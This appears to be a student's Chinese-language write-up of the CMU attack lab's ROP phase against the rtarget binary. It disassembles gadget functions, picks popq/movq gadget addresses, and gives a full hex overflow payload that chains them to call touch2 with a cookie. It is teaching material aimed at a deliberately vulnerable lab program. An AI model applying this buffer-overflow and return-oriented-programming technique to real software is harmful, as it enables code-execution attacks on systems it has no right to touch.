 包含48 89 c7的函数：
```
0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64 
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3                   	ret    
000000000000002a <setval_237>:
  2a:	f3 0f 1e fa          	endbr64 
  2e:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  34:	c3                   	ret    
000000000000004b <setval_426>:
  4b:	f3 0f 1e fa          	endbr64 
  4f:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  55:	c3                   	ret    
```

去rtarget的反汇编文件里面找一下这些函数吧

```
00000000004019a7 <addval_219>: #58在4019ab
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret   
00000000004019b5 <setval_424>: #58在4019b9
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	ret    
00000000004019ca <getval_280>: #58在4019cc
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    
```

```
00000000004019a0 <addval_273>: #48 89 c7在4019a2
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
00000000004019ae <setval_237>: #48 89 c7在4019b0
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	ret    
00000000004019c3 <setval_426>: #48 89 c7在4019c5
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret    
```

于是我们就可以直接利用这些函数的地址了
popq：4019ab、4019b9、4019cc
movq：4019a2、~~4019b0~~(这个会报错，可能是后面跟的c7的问题)、4019c5

构造输入字符串，在返回地址处开始覆盖上我们的注入地址，让程序跳转到相应的函数中间地址去执行指令，执行完后返回到下一个要执行的函数，最后返回到touch2函数

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 补40个字节 */
cc 19 40 00 /* popq %rax */ /* 在返回地址处覆盖上相应的函数中间地址 */ /* ab 19 40 */ /* b9 19 40 */ /* cc 19 40 */
00 00 00 00
fa 97 b9 59 /* cookie (popq的目标) */
00 00 00 00
a2 19 40 00 /* movq %rax,%rdi */ /* 跳转到的第一个函数返回时进入这个返回地址，即第二个函数的中间地址 */ /* a2 19 40 */ /* c5 19 40 */  /* b0 19 40(这个会报错) */
00 00 00 00
ec 17 40 00 /* 跳转到的第二个函数返回时返回到touch2的地址 */
00 00 00 00
```
